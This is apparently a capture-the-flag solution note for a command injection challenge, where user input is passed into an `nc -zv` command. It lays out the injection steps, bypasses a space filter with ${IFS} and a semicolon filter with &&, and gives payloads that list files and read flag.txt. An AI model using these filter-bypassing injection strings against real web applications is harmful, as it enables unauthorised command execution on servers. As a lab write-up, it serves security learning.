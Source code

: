 # solution
- find command called in source code: `nc -zv <url> 80 2>&1`
- injection
  - close nc command properly -> add `80`
  - at the end, add a command to handle the `80 2>&1` added by the script -> e.g. echo
- bypass filters
  - space is blocked -> use ${IFS}
  - ; is blocked -> use &&
- set value in option to:
  - `twitter.com${IFS}80&&ls&&echo`
  - `twitter.com${IFS}80&&cat${IFS}flag.txt&&echo`